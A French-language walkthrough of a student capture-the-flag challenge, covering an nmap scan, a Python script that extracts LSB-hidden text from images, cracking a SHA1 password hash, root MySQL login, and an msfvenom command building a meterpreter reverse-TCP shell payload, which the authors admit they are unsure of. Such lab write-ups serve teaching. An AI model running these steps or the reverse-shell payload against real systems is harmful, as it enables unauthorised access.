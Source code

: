# Walktrought CTF_Moyen_2020-2021 Groupe 4

## Avant Propos :

Ce CTF s'axe sur 3 catégories : 
- De la steganographie
- De la cryptographie
- Du système



## Etape 1

L'utilisateur lorsque qu'il est sur la machine n'aura en premier lieu accès à un /home où il n'y aura de présent que plusieurs images, dont une contiendra un hash.

Via un autre machine l'utilisateur devra faire un 
```bash
nmap -sV -sC [ipmachine]
```
Il pourra s'apercevoir qu'un service mysql est ouvert celui sera protéger par un mot de passe et face aux tentatives de bruteforce.

## Etape 2

L'utilisateur va dans un second temps parcourir les fichiers sur l'espace utilisateur et trouvera des images dans le dossier Documents.
Ces images auront été modifié par un script python afin d'y dissimuler le mot de passe du port sql, le numéro : 3306.

```py

from os import putenv
from PIL import Image
import numpy as np
import sys


def get_msg(input_file):
    img = Image.open(input_file)
    width, height = img.size
    data = np.array(img)

    data = np.reshape(data, width*height*4)
    # On ne regarde que le LSB de chaque pixel
    data = data & 1
    # On transoorme le tout en string de 8 bit de binaire

    """packbit function (from numpy doc)

    Packs the elements of a binary-valued array into bits in a uint8 array.

    The result is padded to full bytes by inserting zero bits at the end.
    """
    data = np.packbits(data)

    # On lit le tout et on convertit en acii jusqu'a qu'on tombe sur un caractère non pritable
    for x in data:
        l = chr(x)
        if not l.isprintable():
            break
        print(l, end='')


def main(argv):
    get_msg(argv[1])


if __name__ == "__main__":
    main(sys.argv)
```
## Etape 3

Le mot de passe étant hashé en SHA1, l'attaquant devra le déhashé en utilsant les rainbow table ou alors à l'aide d'un site web.

## Etape 4

L'attaquant devra ensuite faire une demande de connexion SQL sur le port en question.

```bash
mysql -h [ip.host] -u root -p[PASSWORD]

```

## Etape 5

Une fois connecté au port SQL avec les droits root, l'utilisateur sera en possibilité d'éxecuter un reverse shell sur la machine host à l'aide de la librairie metasploit.

```bash
[msfvenom   linux/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=3306 -f exe -o payload.exe -a x64 --platform linux      ] (on est pas sur mais wola ça marche )
```

Il devra ensuite naviguer dans les fichiers et récupérer le flag.